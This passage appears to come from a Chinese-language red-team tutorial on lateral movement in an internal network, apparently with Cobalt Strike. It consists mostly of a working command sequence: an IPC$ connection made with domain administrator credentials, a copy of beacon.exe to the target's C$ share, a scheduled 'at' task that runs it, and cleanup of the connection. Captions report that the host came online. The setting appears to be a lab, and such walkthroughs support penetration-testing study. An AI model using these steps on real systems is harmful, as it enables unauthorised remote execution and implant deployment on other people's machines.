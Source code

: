 ```bash
# 建立ipc连接：
net use \\192.168.91.178\ipc$ "Abcd1234" /user:god.org\administrator

# 拷贝执行文件到目标机器
copy beacon.exe \\192.168.91.178\c$

# 添加计划任务
at \\192.168.91.178 15:47 c:\beacon.exe

# 删除ipc
net use \IP\ipc$ /del
```

命令完成

[![](assets/1702372940-03882955d09b26d1d7564f673635b02a.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/2.png)

成功上线

[![](assets/1702372940-469e5fd08918f01a9d032ca220af40cc.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/3.png)
